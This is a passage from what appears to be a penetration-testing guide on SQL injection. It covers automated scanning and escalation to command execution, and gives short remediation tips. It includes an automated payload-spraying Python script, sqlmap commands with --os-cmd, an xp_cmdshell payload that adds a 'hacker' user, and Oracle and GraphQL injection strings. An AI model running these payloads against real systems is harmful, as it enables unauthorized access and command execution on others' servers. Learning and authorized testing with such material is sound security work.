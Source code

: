 4. Script with Python:
   - Use:
     ```python
     import requests
     payloads = ["' OR '1'='1", "' UNION SELECT NULL --"]
     for url in open('urls.txt'):
         for payload in payloads:
             r = requests.get(url.strip() + payload)
             if "error" in r.text.lower(): print(f"Vulnerable: {url}")
     ```

**Example Vulnerable Endpoint**:
- `http://example.com/page?id=1`
Test: `sqlmap -m urls.txt --batch`
Result: Identifies vulnerable URLs.

**Remediation**:
- Rate-limit APIs:
  ```nginx
  limit_req zone=api burst=10;
  ```
- Validate inputs:
  ```python
  if not id.isdigit(): raise ValueError
  ```

**Tip**: Save automation results in a report.

### 10. Test for Exploitation Beyond Extraction

**Objective**: Escalate SQL injection to privilege escalation or RCE.

**Steps**:
1. Check privileges:
   - Test: `' UNION SELECT 'sa', NULL FROM sys.sql_logins --` (MSSQL).
2. Execute commands:
   - Test: `' EXEC xp_cmdshell('net user hacker pass /add') --`
   - Use SQLMap:
     ```bash
     sqlmap -u "http://example.com/page?id=1" --os-cmd="whoami"
     ```
3. Pivot to RCE:
   - Test (Oracle): `' AND 1=(SELECT sys_exec('whoami')) --`.
4. Test modern frontends:
   - Inject GraphQL:
     ```graphql
     query { user(id: "1' OR '1'='1") { name } }
     ```
   - Test SPA APIs with Burp.

**Example Vulnerable Code (MSSQL)**:
```sql
EXEC(@query)
```
Test: `' EXEC xp_cmdshell('dir') --`
Result: Lists directory.

